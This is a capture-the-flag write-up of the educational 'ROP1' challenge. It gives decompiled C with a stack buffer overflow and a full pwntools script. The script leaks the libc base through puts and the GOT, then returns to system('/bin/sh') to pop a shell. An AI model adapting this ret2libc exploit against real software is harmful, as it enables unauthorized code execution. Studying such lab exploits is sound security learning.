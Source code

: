 ```yaml
---
title: "Rop1_writeup"
date: 2022-04-10T18:53:03-04:00
draft: false
---
```


# ROP1

Challenge is from [https://github.com/n132/CTF-Challenges/tree/main/Educational/How2ROP](https://github.com/n132/CTF-Challenges/tree/main/Educational/How2ROP)

### **Analysis:**

From the decompiled code in ida, we can learn that the source code looks something like this:

```c
int main()
{
		char buf[256];
		puts("n132");
		read(0, buf, 512);
		return 0;
}
```

Our goal is to replace `puts` with `system` and replace the argument with “/bin/sh”. However, we cannot use libc.sym directly because PIE is enabled and libc will be loaded to different address every time, so that the runtime address for the program will be different every time. Therefore, our first goal is to leak the libc base address.

Because the script has an output function `puts`, we can leak the libc base address by overflowing the buffer and return to a `put` function, and output the base address by subtracting the libc `puts` address from the runtime puts address. Finally, with the base address, we return to the start of the `main` function and start our attack. We can overflow the buffer again and this time we return to the `system` function with “/bin/sh”.

### Exploit:

```python
context.arch='amd64'
context.terminal=['tmux','split','-h']
e=ELF('./pwn')
p=process('./pwn')
sla             = lambda a,b: p.sendlineafter(a,b)
sa                      = lambda a,b: p.sendafter(a,b)
ra                      = lambda a: p.readuntil(a)

gdb.attach(p, 'b *0x400594')
#offset = 283552
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
# find gadget (pop rdi, ret)
rdi = 0x400603
# leak puts(some)
# rdi puts(got) puts(plt) main
sla("\n",b'B'*0x100+p64(0)+p64(rdi)+p64(e.sym.got.puts)+p64(e.sym.puts)+p64(e.sym.main))
base = u64(p.readline()[:-1]+b'\0\0')-libc.sym.puts
log.warning(hex(base))
libc.address = base
# attack : system("/bin/sh")
sla("\n",b'A'*0x100+p64(0)+p64(rdi)+p64(next(libc.search(b'/bin/sh')))+p64(libc.sym.system))
p.interactive()
# pop rdi
# 1.get system /bin/sh's address
# 2.base addres + offset
# 3. leak libc
```

1. We know that the buffer is 0x100 bytes long, so we fill the first 0x100 bytes with arbitrary characters (here we use “B”s).
2. Overwrite `rbp` with 0’s
3. Since `puts` takes the stuffs in `rdi` as argument, we can find gadgets that includes `pop rdi, ret` and return to puts. There’s one at`0x400603`.
4. The GOT table has the true address for `puts`, so we pass `e.sym.got.puts` to the `puts` function.
5. After we retrieved the runtime address for `puts`, we subtract the libc puts address from the runtime address to get libc base address.
6. After that, we can start our attack by returning to main and do buffer overflow again.
7. We do the same thing but this time replace `puts` with `system` and pass “/bin/sh” to the `system` function.
8. Run the script and pop the shell!

